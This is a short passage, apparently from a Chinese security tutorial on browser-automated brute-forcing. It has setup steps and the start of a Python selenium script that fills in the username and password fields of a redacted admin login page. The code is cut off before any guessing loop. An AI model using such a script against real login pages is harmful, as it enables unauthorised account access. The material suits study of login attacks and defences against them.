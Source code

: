 [![](assets/1698897578-b86fe6a0b9d2d0b18d41beeed4a97e0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160522-6c5f8a22-48b7-1.png)

# 0x03 浏览器自动化爆破

安装 selenium  
安装浏览器驱动，加入环境变量。

```plain
#coding:utf-8



import time
import sys
from selenium import webdriver

reload(sys) 
sys.setdefaultencoding('utf-8')



def BruteLogin(user,pwd):


        browser.get('http://xxx.cn/manage/login.aspx')
        browser.implicitly_wait(7)
        elem = browser.find_element_by_name("name")
        elem.send_keys(user)
        elem=browser.find_element_by_name("pws")
        elem.send_keys(pwd)

```